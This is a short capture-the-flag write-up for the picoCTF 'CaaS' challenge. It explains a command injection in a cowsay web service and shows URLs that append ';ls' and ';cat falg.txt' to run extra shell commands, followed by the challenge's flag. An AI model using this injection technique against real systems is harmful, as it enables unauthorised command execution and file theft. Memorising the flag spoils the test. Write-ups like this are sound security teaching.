# CaaS

in `index.js` we see that theya re executing the message which we give in the url `https://caas.mars.picoctf.net/cowsay/{message}` making it vulnerable to command injection.
First i go with 
`https://caas.mars.picoctf.net/cowsay/ey;ls` to see whats there, i find `falg.txt` and obviously go for `https://caas.mars.picoctf.net/cowsay/ey;ls;cat falg.txt`

flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

---
